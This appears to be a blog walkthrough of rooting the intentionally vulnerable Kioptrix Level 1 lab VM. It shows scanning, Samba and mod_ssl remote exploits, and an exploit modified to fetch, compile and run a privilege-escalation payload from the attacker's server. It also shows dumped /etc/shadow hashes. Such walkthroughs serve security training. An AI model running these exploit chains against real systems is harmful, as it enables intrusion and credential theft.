


Intro
\nDefcon 25 is in the books and my Penetration Testing Training with Kali Linux (PWK) / Offensive Security Certified Professional (OSCP) lab time is up. I now have a bit of extra time but I also want to keep my forward momentum in the land of pwning boxes... Accordingly, this seems like an opportune time to start posting, and what better topic than gaining root shellz?
\nI went in search of pwnables that were similar to the boxes I experienced in the PWK lab and found the Kioptrix series of VMs recommended. The series is also on VulnHub. Kioptrix consists of five machines, each of increasing difficulty. The challenges appear to be a bit older, but still seem relevant.
\nFor those that don\'t know, a pwnable or Boot2Root is an intentionally vulnerable virtual machine (VM) that provides a challenge to hackers. The goal is usually to root the box. Some challenges have an intended solution and guide you down the correct path, others expect you to attack the box by any means necessary.
\nLet\'s get started with the first box. I downloaded the .rar file, decompressed it, and spun up the VM in VMware Fusion. After booting, I was presented with the following screen:
\n
Scanning and Enumeration
\nIdentifying Target Address (DHCP)
\nThe host grabs an address via DHCP as it boots. Identifying the host on my network was simple as the VM is in a low traffic local subnet on my host machine.
\nroot@kali:~# ifconfig eth1 | grep "inet\\s"\ninet 172.16.2.129 netmask 255.255.255.0 broadcast 172.16.2.255\nroot@kali:~# nmap -T4 -sn 172.16.2.0/24\n\nStarting Nmap 7.25BETA2 ( https://nmap.org )\nNmap scan report for 172.16.2.1\nHost is up (0.0011s latency).\nMAC Address: 00:50:56:C0:00:02 (VMware)\nNmap scan report for 172.16.2.130\nHost is up (0.00027s latency).\nMAC Address: 00:0C:29:E8:BF:7E (VMware)\nNmap scan report for 172.16.2.254\nHost is up (0.00017s latency).\nMAC Address: 00:50:56:E8:27:6D (VMware)\nNmap scan report for 172.16.2.129\nHost is up.\nNmap done: 256 IP addresses (4 hosts up) scanned in 13.11 seconds\nThe scan shows only four live IPs on my target subnet (172.16.2.0/24): the gateway (.1), DHCP server (.254), my Kali machine (.129), and the target, Kioptrix1, which has been assigned 172.16.2.130.
\nEnumerate All the things
\nnmap
\nroot@kali:~# nmap -T4 -Pn -sV -O -p- 172.16.2.130\n\nStarting Nmap 7.25BETA2 ( https://nmap.org )\nNmap scan report for 172.16.2.130\nHost is up (0.00042s latency).\nNot shown: 65528 closed ports\nPORT STATE SERVICE VERSION\n22/tcp open ssh OpenSSH 2.9p2 (protocol 1.99)\n80/tcp open http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)\n111/tcp open rpcbind 2 (RPC #100000)\n139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)\n443/tcp open ssl/https Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b\n1024/tcp open status 1 (RPC #100024)\n45295/tcp open unknown\n1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :\nSF-Port45295-TCP:V=7.25BETA2%I=7%D=8/12%Time=598EC8C9%P=i686-pc-linux-gnu%\nSF:r(GenericLines,3E,"/bin//sh:\\x20\\r:\\x20command\\x20not\\x20found\\n/bin//s\nSF:h:\\x20\\r:\\x20command\\x20not\\x20found\\n")%r(GetRequest,1FD,"Can\'t\\x20ign\nSF:ore\\x20signal\\x20CHLD,\\x20forcing\\x20to\\x20default\\.\\nUse\\x20of\\x20unin\nSF:itialized\\x20value\\x20in\\x20pattern\\x20match\\x20\\(m//\\)\\x20at\\x20/usr/l\nSF:ib/perl5/site_perl/5\\.6\\.0/URI/Heuristic\\.pm\\x20line\\x2097\\.\\n<HTML>\\n<\nSF:HEAD><TITLE>An\\x20Error\\x20Occurred</TITLE></HEAD>\\n<BODY>\\n<H1>An\\x20E\nSF:rror\\x20Occurred</h1>\\n500\\x20Can\'t\\x20locate\\x20object\\x20method\\x20\\"\nSF:epath\\"\\x20via\\x20package\\x20\\"URI::file\\"\\n\\n</BODY>\\n</HTML>\\n<HTML>\\\nSF:n<HEAD><TITLE>An\\x20Error\\x20Occurred</TITLE></HEAD>\\n<BODY>\\n<H1>An\\x2\nSF:0Error\\x20Occurred</h1>\\n500\\x20Can\'t\\x20connect\\x20to\\x20HTTP:80\\x20\\(\nSF:Bad\\x20hostname\\x20\'HTTP\'\\)\\n\\n</BODY>\\n</HTML>\\n/bin//sh:\\x20\\r:\\x20co\nSF:mmand\\x20not\\x20found\\n")%r(HTTPOptions,44,"/bin//sh:\\x20OPTIONS:\\x20co\nSF:mmand\\x20not\\x20found\\n/bin//sh:\\x20\\r:\\x20command\\x20not\\x20found\\n")%\nSF:r(RTSPRequest,44,"/bin//sh:\\x20OPTIONS:\\x20command\\x20not\\x20found\\n/bi\nSF:n//sh:\\x20\\r:\\x20command\\x20not\\x20found\\n")%r(Help,23,"/bin//sh:\\x20HE\nSF:LP\\r:\\x20command\\x20not\\x20found\\n")%r(TLSSessionReq,4F,"/bin//sh:\\x20\\\nSF:x16\\x03i\\x01e\\x03\\x03U\\x1c\\xa7\\xe4random1random2random3random4\\x0c/:\\x2\nSF:0No\\x20such\\x20file\\x20or\\x20directory\\n")%r(Kerberos,2E,"/bin//sh:\\x20\nSF:qj\\x81n0\\x81k\\xa1\\x03\\x02\\x01\\x05\\xa2\\x03\\x02\\x01:\\x20command\\x20not\\x2\nSF:0found\\n")%r(FourOhFourRequest,1F4,"Can\'t\\x20ignore\\x20signal\\x20CHLD,\\\nSF:x20forcing\\x20to\\x20default\\.\\nUse\\x20of\\x20uninitialized\\x20value\\x20i\nSF:n\\x20pattern\\x20match\\x20\\(m//\\)\\x20at\\x20/usr/lib/perl5/site_perl/5\\.6\nSF:\\.0/URI/Heuristic\\.pm\\x20line\\x2097\\.\\n<HTML>\\n<HEAD><TITLE>An\\x20Error\nSF:\\x20Occurred</TITLE></HEAD>\\n<BODY>\\n<H1>An\\x20Error\\x20Occurred</h1>\\n\nSF:404\\x20File\\x20`/nice\\x20ports,/Trinity\\.txt\\.bak\'\\x20does\\x20not\\x20ex\nSF:ist\\n</BODY>\\n</HTML>\\n<HTML>\\n<HEAD><TITLE>An\\x20Error\\x20Occurred</TI\nSF:TLE></HEAD>\\n<BODY>\\n<H1>An\\x20Error\\x20Occurred</h1>\\n500\\x20Can\'t\\x20\nSF:connect\\x20to\\x20HTTP:80\\x20\\(Bad\\x20hostname\\x20\'HTTP\'\\)\\n\\n</BODY>\\n<\nSF:/HTML>\\n/bin//sh:\\x20\\r:\\x20command\\x20not\\x20found\\n");\nMAC Address: 00:0C:29:E8:BF:7E (VMware)\nDevice type: general purpose\nRunning: Linux 2.4.X\nOS CPE: cpe:/o:linux:linux_kernel:2.4\nOS details: Linux 2.4.9 - 2.4.18 (likely embedded)\nNetwork Distance: 1 hop\n\nOS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .\nNmap done: 1 IP address (1 host up) scanned in 144.28 seconds\nThere is plenty going on here, so I started by running the OpenSSH, Apache, mod_ssl, and OpenSSL versions through Exploit DB. There were some decent matches, but I wanted to dig in to the SMB service first. Usually when SMB fails, it fails hard...
\nExploitation #1 - SMB
\nI wanted to get more info on the netbios service (on 139/tcp) at least get a version.
\nroot@kali:~# enum4linux 172.16.2.130\nStarting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ )\n\n[... snip ...]\n\n ====================================== \n| OS information on 172.16.2.130 |\n ====================================== \n[+] Got OS info for 172.16.2.130 from smbclient: Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]\n[+] Got OS info for 172.16.2.130 from srvinfo:\n KIOPTRIX Wk Sv PrQ Unx NT SNT Samba Server\n platform_id : 500\n os version : 4.5\n server type : 0x9a03\n\n[... snip ...]\n\nenum4linux complete on Fri Aug 11 22:42:00 2017\nAhh, there\'s the version: Samba 2.2.1a, which I then ran through Exploit DB:
\nroot@kali:~# searchsploit Samba | grep "2\\.2\\."\nSamba 2.2.x - Remote Root Buffer Overflow | ./linux/remote/7.pl\n[... snip ...]\nThis looked promising, so I attempted the exploit:
\nroot@kali:~# perl /usr/share/exploitdb/platforms/linux/remote/7.pl\n\n trans2root.pl - Samba 2.2.x \'trans2open()\' Remote Exploit\n===================================\n\n Usage: \n /usr/share/exploitdb/platforms/linux/remote/7.pl <options> -t <target type> -H <your ip> -h <target ip>\n Options: \n -M (S|B) <single or brute mode>\n -r <return address for single mode>\n -p <alternate Samba port>\n -P <alternate listener port>\n Targets:\n linx86\n solx86\n fbsdx86\nroot@kali:~# perl /usr/share/exploitdb/platforms/linux/remote/7.pl -t linx86 -H 172.16.2.129 -h 172.16.2.130\n[*] Using target type: linx86\n[*] Listener started on port 1981\n[*] Starting brute force mode...\n[*] Return Address: 0xbf0001ff \nroot@kali:~#\nUnfortunately, after running through the address brute-force, this exploit script did not seem to do the trick.
\nI was still convinced that this vulnerability was exploitable, so I went looking for another working exploit. I simply Googled "Samba 2.2.1a" and my first hit was for an exploit actually labeled Samba 2.2.8, but stated, "Remote root exploit for Samba 2.2.x and prior that works against Linux (all distributions) [...]."
\n
\nAs a side note, this exploit labeling makes it difficult to identify this exploit with the searchsploit tool. If anyone know how to better use searchsploit, let me know.
\nAt any rate, I located, compiled, and ran the exploit:
\nroot@kali:~# searchsploit "Samba 2.2.8"\n------------------------------------------------------------------------------------------------------------------- ----------------------------------\n Exploit Title | Path\n | (/usr/share/exploitdb/platforms)\n------------------------------------------------------------------------------------------------------------------- ----------------------------------\nSamba 2.2.8 - Remote Root Exploit | ./linux/remote/10.c\nroot@kali:~# gcc -o sambasploit /usr/share/exploitdb/platforms/linux/remote/10.c \nroot@kali:~# file sambasploit \nsambasploit: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3209817b6f2b2e5f713e16f8e55dcf0fbb219feb, not stripped\nroot@kali:~# ./sambasploit \nsamba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)\n--------------------------------------------------------------\nUsage: ./sambasploit [-bBcCdfprsStv] [host]\n\n-b <platform> bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)\n-B <step> bruteforce steps (default = 300)\n-c <ip address> connectback ip address\n-C <max childs> max childs for scan/bruteforce mode (default = 40)\n-d <delay> bruteforce/scanmode delay in micro seconds (default = 100000)\n-f force\n-p <port> port to attack (default = 139)\n-r <ret> return address\n-s scan mode (random)\n-S <network> scan mode\n-t <type> presets (0 for a list)\n-v verbose mode\nroot@kali:~# ./sambasploit -v -b 0 172.16.2.130\nsamba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)\n--------------------------------------------------------------\n+ Verbose mode.\n+ Bruteforce mode. (Linux)\n+ Host is running samba.\n+ Using ret: [0xbffffed4]\n+ Using ret: [0xbffffda8]\n+ Worked!\n--------------------------------------------------------------\n*** JE MOET JE MUIL HOUWE\nLinux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown\nuid=0(root) gid=0(root) groups=99(nobody)\nid \nuid=0(root) gid=0(root) groups=99(nobody)\nwhoami\nroot\nBoom, rootshellz! At this point, instead of moving on to persistence and pilfering the box, I instead wanted to see if I could find any other ways to pwn Kioptrix1.
\nUnfamiliar with "JE MOET JE MUIL HOUWE," I found it is Dutch for "YOU MUST HAVE YOUR MOUSE." It is also, apparently, a hardcore song by Neophyte. If there is some further reference here, it is lost on me.
\nExploitation #2 - Apache and mod_ssl
\nSearching for Apache and mod_ssl vulnerabilities / exploits turned up a promising hit:
\nroot@kali:~# searchsploit apache mod_ssl\n---------------------------------------------------------------------------------------------------------------------------------- ----------------------------------\n Exploit Title | Path\n | (/usr/share/exploitdb/platforms)\n---------------------------------------------------------------------------------------------------------------------------------- ----------------------------------\nApache/mod_ssl (< 2.8.7) OpenSSL - \'OpenFuckV2.c\' Remote Exploit (2) | ./unix/remote/764.c\n[... snip ...]\nI attempted to compile this exploit, using libcrypto, but it failed miserably. I did some Googling and found an article by PaulSec about updating this exploit for modern pwning. PaulSec\'s modifications worked with two exceptions: First, I had to change the URL, as suggested by PauSec, but I needed https instead of http (https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c). Second, on my Kali install, I had to install libssl1.0-dev as opposed to just libssl1-dev. In fact, this required removing my existing libssl-dev package. Once all modifications were made to the exploit an my build environment, I was able to compile and use the exploit:
\nroot@kali:~# gcc -o OpenFuckIn2017 OpenFuckIn2017.c -lcrypto\nroot@kali:~# file OpenFuckIn2017\nOpenFuckIn2017: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b6026a5ef5267c1ff4612467c68fe9f24f8449c9, not stripped\nroot@kali:~# ./OpenFuckIn2017\n\n*******************************************************************\n* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *\n*******************************************************************\n* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *\n* #hackarena irc.brasnet.org *\n* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *\n* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *\n* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *\n*******************************************************************\n\n: Usage: ./OpenFuckIn2017 target box [port] [-c N]\n\n target - supported box eg: 0x00\n box - hostname or IP address\n port - port for ssl connection\n -c open N connections. (use range 40-50 if u dont know)\n \n\n Supported OffSet:\n [... snip ...]\nFuck to all guys who like use lamah ddos. Read SRC to have no surprise\nI needed to identify the target to use:
\nroot@kali:~# ./OpenFuckIn2017 | grep RedHat | grep 1.3.20\n 0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1\n 0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2\nI attempted the first target without luck:
\nroot@kali:~# ./OpenFuckIn2017 0x6a 172.16.2.130\n\n*******************************************************************\n* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *\n*******************************************************************\n* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *\n* #hackarena irc.brasnet.org *\n* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *\n* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *\n* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *\n*******************************************************************\n\nEstablishing SSL connection\ncipher: 0x4043808c ciphers: 0x80fc080\nReady to send shellcode\nSpawning shell...\nGood Bye!\nSo I moved on to the second:
\nroot@kali:~# ./OpenFuckIn2017 0x6b 172.16.2.130\n\n*******************************************************************\n* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *\n*******************************************************************\n* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *\n* #hackarena irc.brasnet.org *\n* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *\n* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *\n* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *\n*******************************************************************\n\nEstablishing SSL connection\ncipher: 0x4043808c ciphers: 0x80f8068\nReady to send shellcode\nSpawning shell...\nbash: no job control in this shell\nbash-2.05$ \nexploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- \n--01:17:47-- http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c\n => `ptrace-kmod.c\'\nConnecting to dl.packetstormsecurity.net:80... \ndl.packetstormsecurity.net: Host not found.\ngcc: ptrace-kmod.c: No such file or directory\ngcc: No input files\nrm: cannot remove `ptrace-kmod.c\': No such file or directory\nbash: ./p: No such file or directory\nbash-2.05$ \nbash-2.05$ id\nid\nuid=48(apache) gid=48(apache) groups=48(apache)\nbash-2.05$ pwd\npwd\n/tmp\nAwesome, I received a shell, albeit not root. This is when I discovered that because I set up Kioptrix1 without Internet access, my initial remote exploit was unable to download the ptrace/kmod local root exploit from packetstormsecurity.net. I proceeded to stage the privilege escalation exploit locally on my Kali box:
\nroot@kali:~# wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c\n--2017-08-13 10:56:21-- http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c\nResolving dl.packetstormsecurity.net (dl.packetstormsecurity.net)... 198.84.60.200\nConnecting to dl.packetstormsecurity.net (dl.packetstormsecurity.net)|198.84.60.200|:80... connected.\nHTTP request sent, awaiting response... 301 Moved Permanently\nLocation: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]\n--2017-08-13 10:56:22-- https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c\nConnecting to dl.packetstormsecurity.net (dl.packetstormsecurity.net)|198.84.60.200|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 3921 (3.8K) [text/x-csrc]\nSaving to: \xe2\x80\x98ptrace-kmod.c\xe2\x80\x99\n\nptrace-kmod.c 100%[====================================================================================================================>] 3.83K --.-KB/s in 0s \n\n2017-08-13 10:56:22 (70.1 MB/s) - \xe2\x80\x98ptrace-kmod.c\xe2\x80\x99 saved [3921/3921]\nI then updated my exploit to download the file from my Kali box, again using the Python Simple HTTP server.
\nroot@kali:~# cp OpenFuckIn2017.c OpenFuckIn2017LocalDL.c\nroot@kali:~# sed -i \'s*https://dl.packetstormsecurity.net/0304-exploits/*http://172.16.2.129:8000/*\' OpenFuckIn2017LocalDL.c\nroot@kali:~# gcc -o OpenFuckIn2017LocalDL OpenFuckIn2017LocalDL.c -lcrypto\nroot@kali:~# python -m SimpleHTTPServer\nServing HTTP on 0.0.0.0 port 8000 ...\n172.16.2.130 - - [13/Aug/2017 11:03:20] "GET /ptrace-kmod.c HTTP/1.0" 200 -\nroot@kali:~# ./OpenFuckIn2017LocalDL 0x6b 172.16.2.130\n\n*******************************************************************\n* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *\n*******************************************************************\n* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *\n* #hackarena irc.brasnet.org *\n* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *\n* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *\n* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *\n*******************************************************************\n\nEstablishing SSL connection\ncipher: 0x4043808c ciphers: 0x80f8068\nReady to send shellcode\nSpawning shell...\nbash: no job control in this shell\nbash-2.05$ \n gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 172.16.2.129:8000/ptrace-kmod.c; \n--00:02:13-- http://172.16.2.129:8000/ptrace-kmod.c\n => `ptrace-kmod.c\'\nConnecting to 172.16.2.129:8000... connected!\nHTTP request sent, awaiting response... 200 OK\nLength: 3,921 [text/plain]\n\n 0K ... 100% @ 3.74 MB/s\n\n00:02:13 (3.74 MB/s) - `ptrace-kmod.c\' saved [3921/3921]\n\n[+] Attached to 984\n[+] Waiting for signal\n[+] Signal caught\n[+] Shellcode placed at 0x4001189d\n[+] Now wait for suid shell...\nwhoami\nroot\n\nid\nuid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)\n\ncat /etc/passwd\nroot:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\nnews:x:9:13:news:/var/spool/news:\nuucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\ngames:x:12:100:games:/usr/games:/sbin/nologin\ngopher:x:13:30:gopher:/var/gopher:/sbin/nologin\nftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\nnobody:x:99:99:Nobody:/:/sbin/nologin\nmailnull:x:47:47::/var/spool/mqueue:/dev/null\nrpm:x:37:37::/var/lib/rpm:/bin/bash\nxfs:x:43:43:X Font Server:/etc/X11/fs:/bin/false\nrpc:x:32:32:Portmapper RPC user:/:/bin/false\nrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\nnfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin\nnscd:x:28:28:NSCD Daemon:/:/bin/false\nident:x:98:98:pident user:/:/sbin/nolcat /etc/passwd\nogin\nradvd:x:75:75:radvd user:/:/bin/false\npostgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash\napache:x:48:48:Apache:/var/www:/bin/false\nsquid:x:23:23::/var/spool/squid:/dev/null\npcap:x:77:77::/var/arpwatch:/bin/nologin\njohn:x:500:500::/home/john:/bin/bash\nharold:x:501:501::/home/harold:/bin/bash\n\ncat /etc/shadow\nroot:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::\nbin:*:14513:0:99999:7:::\ndaemon:*:14513:0:99999:7:::\nadm:*:14513:0:99999:7:::\nlp:*:14513:0:99999:7:::\nsync:*:14513:0:99999:7:::\nshutdown:*:14513:0:99999:7:::\nhalt:*:14513:0:99999:7:::\nmail:*:14513:0:99999:7:::\nnews:*:14513:0:99999:7:::\nuucp:*:14513:0:99999:7:::\noperator:*:14513:0:99999:7:::\ngames:*:14513:0:99999:7:::\ngopher:*:14513:0:99999:7:::\nftp:*:14513:0:99999:7:::\nnobody:*:14513:0:99999:7:::\nmailnull:!!:14513:0:99999:7:::\nrpm:!!:14513:0:99999:7:::\nxfs:!!:14513:0:99999:7:::\nrpc:!!:14513:0:99999:7:::\nrpcuser:!!:14513:0:99999:7:::\nnfsnobody:!!:14513:0:99999:7:::\nnscd:!!:14513:0:99999:7:::\nident:!!:14513:0:99999:7:::\nradvd:!!:14513:0:99999:7:::\npostgres:!!:14513:0:99999:7:::\napache:!!:14513:0:99999:7:::\nsquid:!!:14513:0:99999:7:::\npcap:!!:14513:0:99999:7:::\njohn:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::\nharold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::\nAnd... Winner, winner, rootshellz for dinner! By chaining a remote code execution (RCE) exploit with a local privilege escalation exploit we have achieved our goal.
\nExploitation #3 - SSH
\nI couldn\'t seem to identify any exact matches of RCE exploits for OpenSSH 2.9p2. However, every version of SSH is always vulnerable to at least one exploit: brute force! I didn\'t spend the time trying to brute force my way in, but it is definitely possible this is a possible solution.
\nPillaging
\nLooking through the output of my enumeration script, I noticed something of note:
\nls -l /var/mail/\ntotal 1\n-rw-rw---- 1 harold harold 0 Sep 26 2009 harold\n-rw-rw---- 1 john john 0 Sep 26 2009 john\n-rw-rw---- 1 nfsnobod nfsnobod 0 Sep 26 2009 nfsnobody\n-rw------- 1 root root 1005 Aug 16 00:06 root\nMr. root had some mail.
\nfile /var/mail/root\n/var/mail/root: ASCII mail text\n\ncat /var/mail/root\nFrom root Sat Sep 26 11:42:10 2009\nReturn-Path: <root@kioptix.level1>\nReceived: (from root@localhost)\n by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831\n for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400\nDate: Sat, 26 Sep 2009 11:42:10 -0400\nFrom: root <root@kioptix.level1>\nMessage-Id: <200909261542.n8QFgAZ01831@kioptix.level1>\nTo: root@kioptix.level1\nSubject: About Level 2\nStatus: O\n\nIf you are reading this, you got root. Congratulations.\nLevel 2 won\'t be as easy...\n\nFrom root Wed Aug 16 00:06:45 2017\nReturn-Path: <root@kioptrix.level1>\nReceived: (from root@localhost)\n by kioptrix.level1 (8.11.6/8.11.6) id v7G46js01139\n for root; Wed, 16 Aug 2017 00:06:45 -0400\nDate: Wed, 16 Aug 2017 00:06:45 -0400\nFrom: root <root@kioptrix.level1>\nMessage-Id: <201708160406.v7G46js01139@kioptrix.level1>\nTo: root@kioptrix.level1\nSubject: LogWatch for kioptrix.level1\n\n\n\n ################## LogWatch 2.1.1 Begin ##################### \n\n\n ###################### LogWatch End ######################### \nLooks like this was a flag:
\n"If you are reading this, you got root. Congratulations.
\nLevel 2 won\'t be as easy..."
Conclusion
\nThis VM was simple and fun, a nice warm up for the Kioptrix series. I was able to find two different RCE vulnerabilities, one in SMB and the other in mod_ssl / Apache. I think the moral here, from a security standpoint, is patch all the things! Stay tuned as I will continue to post about the Kioptrix series as I complete them.
\nAlso, in a future posts, I plan to dig deeper in to the exploits used in this and other challenges to really understand the vulnerabilities and how the exploits actually work.
\n\n